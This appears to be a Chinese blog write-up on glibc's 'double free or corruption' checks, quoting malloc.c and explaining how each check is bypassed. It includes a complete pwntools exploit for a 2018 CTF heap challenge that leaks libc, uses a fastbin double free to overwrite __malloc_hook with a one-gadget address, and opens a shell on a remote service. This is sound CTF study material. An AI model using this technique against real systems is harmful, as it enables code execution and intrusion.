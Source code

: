 ```yaml
---
title: double free or corrupttion
date: 2018-11-14 17:12:30
tags: pwn basic
---
```

DOUBLE FREE OR CORRUPTION！

<!--more-->
# Souce
[源码][1]是一切问题的基础。
# Double free
这次主要从源码层面看看double free的各个报错成因，以及绕过姿势。

# Fastbin 
## fasttop
int_free===>if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())
也就是free到fastbin对于doublefree的检测....非常友好
```python
 if (SINGLE_THREAD_P)
      {
        /* Check that the top of the bin is not the record we are going to
           add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          malloc_printerr ("double free or corruption (fasttop)");
        p->fd = old;
        *fb = p;
      }
    else
      do
        {
          /* Check that the top of the bin is not the record we are going to
             add (i.e., double free).  */
          if (__builtin_expect (old == p, 0))
            malloc_printerr ("double free or corruption (fasttop)");
          p->fd = old2 = old;
        }
      while ((old = catomic_compare_and_exchange_val_rel (fb, p, old2))
             != old2);
```
这货比较无脑主要是check上个free过得chunk和现在的是不是一样....
所以绕过方式也比较简单
```python
free(1)
free(2)
free(1)
```
如果fastbin中可以freefree过的chunk，那么可以在fastbin中为所欲为...
## EZ_heap
su_2018_招新赛的一题[附件][2]
直接通过doublefree做fastbin_atk改写__malloc_hook然后doublefree触发printerr就可以了
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice : ",str(c))
def add(size,name,kind="A"):
	cmd(1)
	p.sendlineafter("name :",str(size))
	p.sendafter("animal :",name)
	p.sendlineafter("animal :",kind)
def show():
	cmd(2)
def free(idx):
	cmd(3)
	p.sendlineafter("cage:",str(idx))
def clear_all():
	cmd(4)
p=process("./pwn")
p=remote("43.254.3.203",10006)
#context.log_level='debug'
add(0x1000000090,"A\n")#0
add(0x18,"\n")#1
free(0)
add(0x18,"\n")#2
show()
p.readuntil("[2] :\n")
base=(u64((p.readline()[:-1]+"\x00").ljust(8,'\x00'))<<8)-(0x7fa2234a1b00-0x00007fa2230dd000)
log.warning(hex(base))
#gdb.attach(p)
add(0x60,"\n")#3
add(0x60,'\n')#4

free(3)
free(4)
free(3)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address=base
add(0x60,p64(libc.symbols['__malloc_hook']-35))#3
add(0x60,"\n")#4
add(0x60,"\n")#5
one=0xf02a4+base
add(0x60,'\x00'*19+p64(one))
free(4)
free(4)
#gdb.attach(p)
p.interactive()

#x/8gx 0x0000000006020E0
```
# Not fastbin Not mmapped
主要有以下三个检测
```c
/* Lightweight tests: check whether the block is already the
       top block.  */
    if (__glibc_unlikely (p == av->top))
      malloc_printerr ("double free or corruption (top)");
    /* Or whether the next chunk is beyond the boundaries of the arena.  */
    if (__builtin_expect (contiguous (av)
                          && (char *) nextchunk
                          >= ((char *) av->top + chunksize(av->top)), 0))
        malloc_printerr ("double free or corruption (out)");
    /* Or whether the block is actually not marked used.  */
    if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```
第一个检测是否是topchunk...一般利用的时候没啥问题
第二个检测本个chunk的末尾是否超出topchunk+topchunk_size...一般注意点改size没啥大问题
第三个检测应该是最常见的，检查下一个chunk的pre_preinuse位，解决方法也就是改pre_preinuse...
看完了doublefree...的几个报错感觉没啥好说的...都比较基础....
就当整合一下知识把...
## over
感觉double free 算是uaf中最友好的利用起来也非常人性化....
本来以为工作量挺大的....没想到20min就写完了....可能太菜了没发觉真正值得研究的东西...


[1]:https://code.woboq.org/userspace/glibc/malloc/malloc.c.html
[2]:https://github.com/n132/Watermalon/tree/master/SUCTF_2018